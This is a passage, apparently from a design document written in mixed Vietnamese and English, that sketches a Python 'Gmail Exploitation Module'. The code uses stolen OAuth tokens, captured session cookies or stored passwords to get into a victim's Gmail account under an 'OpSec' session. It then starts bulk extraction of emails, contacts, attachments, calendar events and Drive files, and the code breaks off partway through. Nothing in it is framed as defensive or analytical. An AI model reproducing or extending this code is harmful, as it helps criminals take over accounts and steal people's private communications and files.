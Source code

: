 #### 5. Gmail Exploitation Module
**Core Architecture**: OAuth-based access với comprehensive data extraction
**Technologies**: Python (Google API Client), AsyncIO (concurrent processing), Encryption (AES-256)

```python
class GmailExploitationEngine:
    def __init__(self):
        self.oauth_manager = OAuthTokenManager()
        self.gmail_client = GmailAPIClient()
        self.data_extractor = GmailDataExtractor()
        self.export_engine = DataExportEngine()
        self.opsec_manager = OperationalSecurityManager()
    
    async def access_victim_gmail(self, victim_id, admin_user_id, access_method='oauth'):
        """Secure Gmail access với full operational security"""
        
        # Setup OpSec environment
        opsec_session = await self.opsec_manager.create_secure_session(admin_user_id)
        
        try:
            victim = await self.db.victims.find_one({"_id": victim_id})
            
            # Select access method
            gmail_service = None
            if access_method == 'oauth' and victim.oauth_tokens:
                gmail_service = await self.access_via_oauth(victim.oauth_tokens, opsec_session)
            elif access_method == 'session' and victim.captured_cookies:
                gmail_service = await self.access_via_session(victim.captured_cookies, opsec_session)
            elif access_method == 'direct' and victim.password_hash:
                gmail_service = await self.access_via_credentials(victim.email, victim.password_hash, opsec_session)
            
            if not gmail_service:
                raise GmailAccessError("No valid access method available")
            
            # Log access attempt
            await self.log_gmail_access(admin_user_id, victim_id, access_method, True)
            
            return gmail_service
            
        except Exception as e:
            await self.log_gmail_access(admin_user_id, victim_id, access_method, False, str(e))
            raise
        
        finally:
            # Cleanup OpSec session
            await self.opsec_manager.cleanup_session(opsec_session)
    
    async def extract_gmail_intelligence(self, gmail_service, victim_id, extraction_config):
        """Comprehensive Gmail data extraction và analysis"""
        
        extraction_results = {
            'emails': [],
            'contacts': [],
            'attachments': [],
            'calendar_events': [],
            'drive_files': [],
            'labels': [],
            'filters': []
        }
        
        # Extract emails with intelligent filtering
        if extraction_config.get('extract_emails', True):
```